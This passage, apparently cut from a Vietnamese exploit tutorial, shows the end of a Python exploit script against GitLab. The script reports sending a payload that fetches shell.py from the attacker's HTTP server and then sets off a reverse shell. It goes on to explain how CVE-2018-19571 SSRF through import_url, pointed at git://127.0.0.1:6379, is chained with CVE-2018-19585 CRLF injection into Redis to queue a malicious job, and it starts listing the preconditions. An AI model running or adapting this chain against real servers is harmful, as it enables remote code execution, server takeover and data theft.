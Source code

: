 success = exploit(project_token, namespace_id, option)

if success:

if option == \"1\":

print(\"\[+\] Payload tải shell.py đã được gửi đi\")

print(\"\[+\] Kiểm tra HTTP server của bạn để xem có request đến
không\")

print(\"\[+\] Sau đó thực hiện bước 2 để kích hoạt reverse shell\")

else:

print(\"\[+\] Payload thực thi shell.py đã được gửi đi\")

print(\"\[+\] Kiểm tra listener của bạn để xem có kết nối đến không\")

else:

print(\"\[-\] Khai thác thất bại\")

if \_\_name\_\_ == \"\_\_main\_\_\":

main()

### Tổng quan script khai thác

**CVE-2018-19571 (SSRF)**

- Trường import_url trong GitLab được thiết kế để nhập các repository từ
  các URL bên ngoài.

- Nếu không kiểm tra kỹ, kẻ tấn công có thể sử dụng các URL đặc biệt như
  git:// để kết nối đến các dịch vụ nội bộ (như Redis).

- Ví dụ: git://127.0.0.1:6379/test.git giả mạo là một request hợp lệ,
  nhưng thực chất là gửi lệnh đến Redis.

**CVE-2018-19585 (CRLF Injection)**

- Redis sử dụng các lệnh dạng text, do đó CRLF (\r\n) có thể được sử
  dụng để chèn các lệnh mới.

- Lệnh Redis được sử dụng để thêm job vào hàng đợi resque:gitlab:queues
  trong GitLab. Job này sẽ được xử lý bởi GitLab và thực thi mã độc hại.

**Mức độ nguy hiểm**

- **Rất cao**:

  - Khi khai thác thành công, bạn có thể thực thi mã tùy ý trên server
    mục tiêu.

  - Điều này có thể dẫn đến việc giành quyền kiểm soát server, đánh cắp
    dữ liệu, hoặc tiếp tục tấn công các hệ thống nội bộ khác.

**Các điều kiện cần để khai thác**

1.  **Tài khoản người dùng hợp lệ**:

    - Bạn cần có quyền truy cập hợp lệ trên GitLab để khai thác các lỗ
      hổng này.
